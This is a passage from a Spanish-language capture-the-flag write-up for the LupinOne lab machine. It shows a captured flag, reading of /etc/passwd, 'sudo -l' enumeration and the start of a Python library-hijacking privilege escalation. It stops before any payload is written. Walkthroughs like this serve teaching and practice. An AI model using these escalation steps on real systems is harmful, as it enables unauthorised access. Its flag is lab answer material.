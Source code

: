 ```console
.,.,    .,.,    ,,.,    .,../*,,&,,    ,.,,    ,.,,    ..,    .,.,    .,.,    ,,

3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}
```

# User Pivoting
Detectamos que existe otro usuario llamado `arsene` en el sistema.
```console
icex64@LupinOne:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
arsene:x:1000:1000:arsene,,,:/home/arsene:/bin/bash
icex64:x:1001:1001:,,,:/home/icex64:/bin/bash
```

Rápidamente detectamos un script en python el cual tenemos permiso de ejecución como el usuario `arsene`
```console
icex64@LupinOne:~$ sudo -l
Matching Defaults entries for icex64 on LupinOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icex64 may run the following commands on LupinOne:
    (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

## Abusing Missconfigured Python Library
El script es simplemente abrir un sitio web con `webbrowser`
```python
import webbrowser

print ("Its not yet ready to get in action")

webbrowser.open("https://empirecybersecurity.co.mz"
```

No tenemos permisos para modificar este script.
```console
icex64@LupinOne:~$ ls -la /home/arsene/heist.py
-rw-r--r-- 1 arsene arsene 118 Oct  4  2021 /home/arsene/heist.py
```

Vamos a comprobar si tenemos permisos para editar el `path` de `python` y hacer un `library hijacking`
```console
icex64@LupinOne:~$ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python39.zip', '/usr/lib/python3.9', '/usr/lib/python3.9/lib-dynload', '/usr/local/lib/python3.9/dist-packages', '/usr/lib/python3/dist-packages']
```
